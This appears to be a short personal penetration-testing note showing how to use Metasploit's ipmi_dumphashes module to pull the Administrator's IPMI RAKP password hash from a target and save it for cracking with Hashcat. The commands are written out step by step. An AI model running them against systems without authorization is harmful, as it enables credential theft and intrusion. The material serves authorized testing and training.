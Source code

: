 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
msfconsole
```

```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

```bash - kali
set RHOSTS $TARGET 
```

```bash - kali
run
```

The hash for user Administrator is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.
```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f4c923b396 > hash 
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#IPMI2 RAKP HMAC-SHA1]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
